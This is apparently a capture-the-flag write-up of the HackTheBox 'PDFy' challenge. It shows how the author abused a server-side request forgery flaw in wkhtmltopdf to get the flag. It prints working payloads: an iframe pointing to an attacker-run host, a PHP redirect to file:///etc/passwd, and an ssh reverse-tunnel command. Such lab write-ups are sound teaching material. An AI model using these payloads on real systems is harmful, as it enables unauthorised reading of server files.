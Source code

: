 # TL;DR

1. Saw that input was reaching out to a website and tried to input "localhost", which produced an error
2. Saw the error came from using the wkhtmltopdf application and looked up vulns for it
3. Found a vuln and a POC for it and tried to get a PDF
4. Did not get a PDF and after a few attempts tried to use a command to get a temp domain name for the server to reach out to with a different payload
5. After giving the temp domain in the form I got a PDF back with the flag

# Detailed Writeup

When first getting to the site we this homepage:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/WebChallenges/PDFy/homepage.png)

The site creates PDFs of sites that is given in the form. I tried to spin up a python server and tried to see if the site would reach back. But the site just hanged without any hits from the server

So I tried to put in "http://localhost" and when I did I got this error from the server:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/WebChallenges/PDFy/error.png)

wkhtmltopdf, this is interesting as the server says a command failed when it tried to use this application. After this, I did a quick google search for any wkhtmltopdf vulnerabilities and I happen to land on page explaining that wkhtmltopdf has a known SSRF vulnerability. 

After this, I tried to look to see if there were any POC's and I happen to land on exploit-notes.hdks.org which had section dedicated to testing for this vulnerability in wkhtmltopdf:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/WebChallenges/PDFy/explanation.png)

I followed these steps. Creating the malicious php file, starting the php server, and tried to inject the payload into the form:

**Example Payload**
```
<iframe src=http://<Your IP address here>:<Port of server>/test.php?x=/etc/passwd width=1000px height=1000px></iframe>
```

I tried to just injecting and it got an error message but did get a hit on my server:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/WebChallenges/PDFy/payload.png)
![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/WebChallenges/PDFy/server.png)

I thought maybe there was something wrong with the php file that I made as I was getting hits on my server. I tried changing the payload to a more simple version than the one in the website that did not take command arguments:

```
<?php
  header("Location: file:///etc/passwd");
?>
```

I got something different but not a PDF so I thought maybe I need to have a domain name since it google.com and github.com. So I used this command to set up a temporary domain: 

```
ssh -R 80:localhost:8000 nokey@localhost.run
```

I sent the payload again with new domain name copied from the above command and once again I did not get a PDF.

**Payload Used**
```
<iframe src=http://<Temp domain name>:8000/test2.php width=1000px height=1000px></iframe>
```

So I tried to just give just the full url of the temp domain name and I got a PDF with the flag: 

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/WebChallenges/PDFy/flag.png)

I come to later find out from other experiments that the site was blocking input and found that input that was given had to start with "http://" or "https://" or else input would of been blocked.
